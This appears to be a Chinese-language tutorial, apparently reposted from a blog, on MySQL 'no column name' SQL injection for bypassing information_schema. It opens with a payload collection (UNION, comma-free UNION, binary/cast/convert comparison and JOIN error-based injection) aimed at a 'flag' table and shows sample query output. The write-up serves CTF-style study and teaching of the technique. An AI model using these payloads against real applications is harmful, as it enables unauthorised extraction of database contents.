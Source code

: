 > 本文作者 [@zww](hhttp://www.wenweizeng.com/2020/03/04/NoColumnInjection-BypassInformation-schema/#more)

## 无列名注入

首先给出payload合集：
``` sql
-- UNION注入
select group_concat(`2`) from (select 1,2,3 union select * from newtable)c);
## 无逗号版本
union select group_concat(a) from (select * from (select 1 `a`)m join (select 2 `b`)n join (select 3 `c`)t where 0 union select * from newtable)x;

-- 比较注入
## 使用binary
select ((select 1,(binary 'G')) > (select * from flag limit 1));
## 使用cast
select ((select 1,cast('G' as binary)) > (select * from flag limit 1));
## 使用convert
select ((select 1,convert('G', binary)) > (select * from flag limit 1));

-- JOIN报错注入
select * from (select * from newtable a join newtable b)c;
select * from (select * from newtable a join newtable b using(id))c;
```

### UNION注入

``` sql
mysql> select * from newtable;      
+------+------+----------+
| id   | name | pwd      |
+------+------+----------+
|    1 | zww  | 123456   |
|    2 | zww2 | 1234567  |
|    3 | zww3 | 12345678 |
+------+------+----------+
3 rows in set (0.00 sec)
```
这是表newtable内的数据

接下来我们看看union注入中会遇到的一个小区别点
``` sql
mysql> select * from newtable union select 1,2,3;
+------+------+----------+
| id   | name | pwd      | << 重点看这里
+------+------+----------+
|    1 | zww  | 123456   |
|    2 | zww2 | 1234567  |
|    3 | zww3 | 12345678 |
|    1 | 2    | 3        |
+------+------+----------+
4 rows in set (0.00 sec)
```
与
``` sql
mysql> select 1,2,3 union select * from newtable;
+------+------+----------+
| 1    | 2    | 3        | << 重点看这里
+------+------+----------+
|    1 | 2    | 3        |
|    1 | zww  | 123456   |
|    2 | zww2 | 1234567  |
|    3 | zww3 | 12345678 |
+------+------+----------+
```